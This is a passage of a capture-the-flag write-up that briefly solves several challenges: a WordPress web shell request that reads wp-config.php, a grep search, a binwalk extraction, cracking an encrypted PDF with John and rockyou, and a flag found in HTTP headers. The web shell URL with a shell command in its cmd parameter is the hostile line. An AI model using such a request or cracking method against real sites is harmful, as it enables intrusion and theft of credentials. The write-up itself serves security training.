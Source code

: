 I navigated around the files and found the flag in `wp-config.php` file

![image](https://i.imgur.com/0HkUSfY.png)

payload: `https://ctftogo-bf7890dd3685-my-stuff-1.chals.io/wp-content/uploads/simple-file-list/9672.php?cmd=cd%20../../../%20;%20cat%20wp-config.php`

flag: `flag{add_action(wordpress_plugins_strike_again!)}`

# OBADA
## Category: warmup

![image](https://i.imgur.com/Kk488zB.png)

Unzipping the attached zip gives a folder named grep2 which contains 9 folders and each folder containing 24 text files each. All of them contains random strings and I'm sure the flag is in one of these random data.

Using `find . -name "file_* -exec grep "flag" {} \;` , I was able to get the flag once

flag: `flag{9r3p_s4v3s_y0u_t1m3}`

# Zangbeto
## Category: Forensics

![Imgur](https://i.imgur.com/rllStYE.png)                       

I used binwalk on the zip file and I got a zip and some folders, extracting the zip gave some folders and an image containing the flag string in it

![Imgur](https://i.imgur.com/Zlh6mj4.jpg)

flag: `flag{old_macdonald_or_mcdonalds_supplier?}`

# Assini
## Category: Forensics

![Imgur](https://i.imgur.com/585HApg.png)

>I seem to have come across a bit of a puzzle – this file is locked with encryption. I'm unable to access its contents. Can you give it a shot?

On running file command I detected its a pdf file. The pdf seem to be encrypted with a password. John with rockyou wordlist did the job of getting password.

password: `hacked`

![Imgur](https://i.imgur.com/bNGwhFT.png)

flag: `flag{kramer_the_best_hacker_ever}`


# Rue Princesse
## Category: web

On checking the headers, we can find the flag.

flag:`flag{who_run_the_world?_http_headers.}`

